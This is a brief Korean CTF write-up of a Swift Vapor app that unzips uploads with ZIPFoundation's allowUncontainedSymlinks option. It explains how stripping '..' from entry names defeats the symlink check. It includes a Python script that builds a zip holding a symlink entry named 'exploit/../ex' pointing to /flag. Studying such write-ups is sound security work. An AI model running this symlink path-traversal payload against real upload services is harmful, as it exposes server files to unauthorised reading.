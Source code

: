 - 솔직히 다른 사람(한별님)이 푼거라 정확히 이해 안됨 수정 예정

# 분석
1. swift의 vapor 프레임워크사용
2. leaf 라는 템플릿언어 사용
3. zip인지 아닌지, symlink인지 아닌지 판별하는 로직 있음
4. `allowUncontainedSymlinks: true` 이게 너무 수상

[https://github.com/weichsel/ZIPFoundation/issues/282](https://github.com/weichsel/ZIPFoundation/issues/282 "https://github.com/weichsel/ZIPFoundation/issues/282")
해당 이슈 보면 allowUncontainedSymlinks가 true일 경우 symbolic link를 걸어둔 파일을 zip으로 압축하면 압축이 해제되면서 설정한 symlink 경로와 연결된다고 함

```
try fileManager.unzipItem(at: sourceURL, to: destinationURL, allowUncontainedSymlinks: true)
```

- symbolic link가 걸려있는 파일이 검출되면 자동으로 삭제하는 mitigation이 있는데

```
func GetEntryListInZipFile(fileName: String) throws -> [String] {
  ...
var components = entry.path.components(separatedBy: "/")
components = components.filter { $0 != ".." }
```

- 이 함수에서 받아온 리스트로 하나씩 symbolic이 걸려있는지 판별
- `result = [a, b, c]` 라고 하면 a, b, c 각각을 판단
- 함수에서 취약점이 존재해 ``exploit/../ex`` 이런식으로 작성하면 entrylist가` exploit/ex`로 줄어들어서 리스트를 오염할 수 있음
- e.g. 실제 파일은 exploit/ ex 리스트는` ["exploit/ex"]` 따라서 검사를 우회하고 익스 가능함

```python
import zipfile

def compress_file(filename):
    zipInfo = zipfile.ZipInfo(".")
    zipInfo.create_system = 3
    zipInfo.external_attr = 2716663808
    zipInfo.filename = filename

    with zipfile.ZipFile('payload.zip', 'w') as zipf:
        zipf.writestr(zipInfo, "/flag")

filename = 'exploit/../ex'

compress_file(filename)
```

[Symlink path traversal vulnerability · Issue #282 · weichsel/ZIPFou...](https://github.com/weichsel/ZIPFoundation/issues/282)